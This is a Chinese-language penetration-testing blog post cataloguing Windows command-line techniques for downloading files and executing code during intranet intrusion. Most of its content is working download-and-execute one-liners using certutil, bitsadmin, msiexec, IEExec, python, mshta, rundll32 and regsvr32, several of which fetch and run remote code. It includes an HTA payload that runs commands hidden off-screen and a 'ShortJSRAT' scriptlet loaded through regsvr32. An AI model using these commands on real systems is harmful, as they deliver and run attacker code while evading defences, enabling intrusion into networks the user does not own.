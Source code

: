 ```yaml
---
layout: post
title:  "Windows下命令行下载文件总结"
date:   2017-11-08
categories: 内网渗透
permalink: /archivers/2017-11-08/1
---
```

Windows下命令行下载文件总结
<!--more-->
## 0x00 Powershell

win2003、winXP不支持


$client = new-object System.Net.WebClient

$client.DownloadFile('http://payloads.online/file.tar.gz', 'E:\file.tar.gz')


## 0x01 ftp

ftp 192.168.3.2

输入用户名和密码后

lcd E:\file    # 进入E盘下的file目录

cd www # 进入服务器上的www目录

get access.log # 将服务器上的access.log下载到E:\file

可以参考：https://baike.baidu.com/item/ftp/13839

## 0x02 IPC$

copy \\192.168.3.1\c$\test.exe E:\file

可以参考：http://www.163164.com/jiqiao/163164com011.htm

## 0x03 Certutil

可以参考：https://technet.microsoft.com/zh-cn/library/cc773087(WS.10).aspx

应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2

certutil.exe -urlcache -split -f http://192.168.3.1/test.txt file.txt

## 0x04 bitsadmin

可以参考：https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx

* 1、`bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt`
* 2、`bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt`

## 0x05 msiexec

msiexec /q /i http://192.168.3.1/test.txt

## 0x06 IEExec

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> caspol -s off

C:\Windows\Microsoft.NET\Framework\v2.0.50727\> IEExec http://192.168.3.1/test.exe

## 0x07 python

C:\python27\python.exe -c "import urllib2; exec urllib2.urlopen('http://192.168.3.1/test.zip').read();"

## 0x08 mshta

mshta http://192.168.3.1/run.hta

run.hta 内容如下：

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```


## 0x09 rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%
```

其实还是依赖于WScript.shell这个组件

## 0x10 regsvr32

regsvr32 /u /s /i:http://192.168.3.1/test.data scrobj.dll

test.data内容：
```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <!-- Learn from Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);

        ]]>
</script>
</registration>
</scriptlet>
```
 
还可以利用 https://github.com/CroweCybersecurity/ps1encode 生成sct(COM scriptlet - requires a webserver to stage the payload)

regsvr32 /u /s /i:http://192.168.3.1/test.sct scrobj.dll

## 结语

没有总结太多交互式下载文件的，这类的不太适用我们所遇到的场景，如果还有更多方式，后面再填补进来


